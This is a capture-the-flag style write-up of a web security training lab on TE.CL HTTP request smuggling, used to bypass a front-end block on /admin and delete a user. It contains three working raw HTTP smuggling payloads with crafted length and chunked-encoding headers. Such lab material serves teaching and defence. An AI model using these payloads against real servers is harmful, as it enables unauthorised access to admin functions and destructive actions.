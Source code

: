 
# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/exploiting



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/1.png)

---------------------------------------------

First we can test a previously used payload to generate a request with GPOST, finding it generates an error every 2 requests:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

26
GPOST / HTTP/1.1
Content-Length: 10

0


```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/2.png)


Then we can adapt the payload to access /admin using the header “Host: localhost” as previously:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

3a
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

0


```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/3.png)


And finally delete the user “carlos”:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

3a
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 10

0


```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/4.png)

